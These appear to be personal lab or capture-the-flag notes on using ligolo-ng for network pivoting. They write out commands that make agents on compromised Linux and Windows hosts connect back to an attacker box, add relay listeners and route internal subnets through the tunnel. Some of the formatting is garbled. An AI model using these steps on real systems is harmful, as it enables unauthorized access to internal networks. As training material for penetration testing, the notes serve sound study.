 [https://www.youtube.com/watch?v=de7IP_uZK6E](https://www.youtube.com/watch?v=de7IP_uZK6E) check his other vidoes

# ligolo-ng
- **Don't have 32bit agents**.
- It is binary you should transfer to the pivot.
- It doesn't need administrative privs to run.
- It create new configurations where you run it!! watch out.
- You can't use Pivoting for network packet sniff.
```powershell
Start-Process .\agent -ArgumentList "-connect 10.10.16.21:11601 -ignore-cert"
```
## Steps
### 1. in my machine, create virtual interface for ligolo “**no need to do it again**”

```sh
sudo ip tuntap add user slom mode tun ligolo  
sudo ip link set ligolo up  
```

or use
```sh
ligolo-ng » interface_create --name "evil-cha"  
INFO[3185] Creating a new "evil-cha" interface...         
INFO[3185] Interface created!

```
- `ip tuntap add`: Linux command to add a TUN/TAP device
- `user slom`: Assign ownership of the interface to the `kali` user
- `mode tun`: Create a **TUN** device (IP-level traffic, not Ethernet frames)
- `ligolo`: Name of the interface (you'll later use this in `ip link set`)
- When Ligolo-NG proxy runs, it tries to use an interface like `ligolo0` or `ligolo`, but if it doesnâ€™t exist or you lack permissions, it will fail

### 2. Start the proxy in my machine:

```sh
slom:$ ligolo -selfcert  
Listening on 0.0.0.0:11601
```

### 3. In the first pivot
```sh
pivot1:$ ./agent -connect 192.168.1.4:11601 -ignore-cert
```
   You should get connection back in slom.
```sh
INFO[1453] Agent joined.                                 id=005056946fe8 name=ubuntu@WEB01 remote="10.129.123.241:36224"  
ligolo-ng » session  
? Specify a session : 1 - ubuntu@WEB01 - 10.129.123.241:36224 - 005056946fe8  
[Agent : ubuntu@WEB01] »  
```
### 4. When get connection, we need to create a route

```sh
sudo ip route add internalUbuntuNetworkID/24 dev ligolo
```

### 5. Start the tunnel
```sh
    [Agent : ubuntu@WEB01] »  start
```

---

## For every new network it will have new virtual-interface tuntap

Now lets make the windows as our 2nd pivot
    
    sudo ip tuntap add user slom mode tun ligolo-double   
    sudo ip link set ligolo-double up  
    or  
    ligolo-ng » interface_create --name "ligolo-double"
    
    - In Ubuntu “1st pivot”, we will create listener:
    
    listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
    
    - This makes **double pivoting easier**, especially when:
        - - - - - - - You don't know in advance which interface/IP will be reachable by the next (3rd or 4th) host.
                                - You want flexibility without binding to a specific IP like `192.168.x.x`.
    - **`--addr 0.0.0.0:11601`**: Listen on _all network interfaces_ (0.0.0.0), so **any host** that can reach this machine can connect to port 11601.
    - **`--to 127.0.0.1:11601`**: Forward that traffic to `localhost:11601` on this machine (where the **second Ligolo agent** is probably connecting in the second pivot).
    - -
        
        ### - Why This Helps in Multi-hop Scenarios
        
        - - - - - - - - - - Let's say you're on:
    
    Attack box → pivot1 → pivot2 → target
    
    - You let `pivot2` connect _back_ to `pivot1:11601`, and it gets **proxied internally** to Ligolo's agent/tunnel.
    - You don’t need to mess with routing or figuring out `pivot1`'s specific internal IP — **just forward and forget**.
- In Windows, You will run `agent` to connect back to the ubuntu listener:
    
    windows> .\agent.exe -connect 10.10.8.9:11601 -ignore-cert
    
    - We will get Agent joined message.
- On our Attackbox, we should enable the tunnel and create our route
    
    ligolo*> tunnel_start --tun ligolo-double 
    
    - Create route
    
    sudo ip route add 172.16.0.0/24 dev ligolo-double